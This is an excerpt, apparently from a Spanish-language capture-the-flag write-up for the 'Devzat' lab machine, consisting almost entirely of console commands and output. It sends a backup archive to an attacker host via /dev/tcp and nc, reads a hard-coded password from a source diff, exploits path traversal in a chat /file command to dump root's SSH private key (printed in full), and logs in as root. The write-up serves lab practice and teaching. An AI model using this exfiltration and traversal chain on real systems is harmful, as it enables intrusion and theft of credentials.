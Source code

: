```console
catherine@devzat:/var/backups$ cat devzat-main.zip > /dev/tcp/10.10.14.12/444
└─$ sudo nc -nlvp 444 > dev.zip
Ncat: Connection from 10.10.11.118:47550.

# Creo en mi sistema una carpeta con los zips y los unzipeo ahí
└─$ diff dev main
< 	// Check my secure password
< 	if pass != "CeilingCatStillAThingIn2021?" {
< 		u.system("You did provide the wrong password")
< 		return

└─$ ssh -l catherine 127.0.0.1 -p 8443 
catherine: /file /etc/passwd CeilingCatStillAThingIn2021?
[SYSTEM] The requested file @ /root/devzat/etc/passwd does not exist!
catherine: /file /root/.ssh/id_rsa CeilingCatStillAThingIn2021?
[SYSTEM] The requested file @ /root/devzat/root/.ssh/id_rsa does not exist!
catherine: /file ../../root/.ssh/id_rsa CeilingCatStillAThingIn2021?
[SYSTEM] -----BEGIN OPENSSH PRIVATE KEY-----
[SYSTEM] b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
[SYSTEM] QyNTUxOQAAACDfr/J5xYHImnVIIQqUKJs+7ENHpMO2cyDibvRZ/rbCqAAAAJiUCzUclAs1
[SYSTEM] HAAAAAtzc2gtZWQyNTUxOQAAACDfr/J5xYHImnVIIQqUKJs+7ENHpMO2cyDibvRZ/rbCqA
[SYSTEM] AAAECtFKzlEg5E6446RxdDKxslb4Cmd2fsqfPPOffYNOP20d+v8nnFgciadUghCpQomz7s
[SYSTEM] Q0ekw7ZzIOJu9Fn+tsKoAAAAD3Jvb3RAZGV2emF0Lmh0YgECAwQFBg==
[SYSTEM] -----END OPENSSH PRIVATE KEY-----
# Nos la copiamos en un archivo llamado "id_rsa"
└─$ chmod 600 id_rsa   
└─$ ssh -i id_rsa root@devzat.htb
root@devzat:~#
```

